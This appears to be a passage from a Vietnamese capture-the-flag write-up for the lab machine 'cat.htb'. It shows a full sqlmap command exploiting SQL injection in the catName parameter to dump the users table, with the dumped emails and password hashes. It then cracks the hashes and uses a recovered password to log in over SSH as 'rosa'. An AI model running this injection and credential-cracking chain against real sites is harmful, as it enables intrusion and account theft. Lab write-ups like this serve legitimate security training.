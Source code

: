 Tiếp tục dump table `users` thông qua SQLi

```bash
$ sqlmap -u "http://cat.htb/accept_cat.php" --data "catId=1&catName=smurf" --cookie="PHPSESSID=e0i7kgq0m77rnlidfmfmj2atj3" -p catName --level=5 --risk=3 --dbms=SQLite -T "users" --threads=4 --dump
Database: <current>
Table: users
[10 entries]
+---------------+-------------------------------+----------------------------------+----------+
| user_id       | email                         | password                         | username |
+---------------+-------------------------------+----------------------------------+----------+
| 1             | axel2017@gmail.com            | d1bbba3670feb9435c9841e46e60ee2f | axel     |
| 2             | rosamendoza485@gmail.com      | ac369922d560f17d6eeb8b2c7dec498c | rosa     |
| 3             | robertcervantes2000@gmail.com | 42846631708f69c00ec0c0a8aa4a92ad | robert   |
| 4             | fabiancarachure2323@gmail.com | 39e153e825c4a3d314a0dc7f7475ddbe | fabian   |
| 5             | jerrysonC343@gmail.com        | 781593e060f8d065cd7281c5ec5b4b86 | jerryson |
| 6             | larryP5656@gmail.com          | 1b6dce240bbfbc0905a664ad199e18f8 | larry    |
| 7             | royer.royer2323@gmail.com     | c598f6b844a36fa7836fba0835f1f6   | royer    |
| ????????????? | peterCC456@gmail.com          | e41ccefa439fc454f7eadbf1f139ed8a | <blank>  |
| <blank>       | <blank>                       | <blank>                          | <blank>  |
| <blank>       | <blank>                       | <blank>                          | <blank>  |
+---------------+-------------------------------+----------------------------------+----------+

```

Tiến hành cầm các và mang qua `crackstation` , mình nhận được kết quả sau:

![image.png](imgs/image%204.png)

Sử dụng password để ssh vào user `rosa`

```bash
$ ssh rosa@cat.htb
```
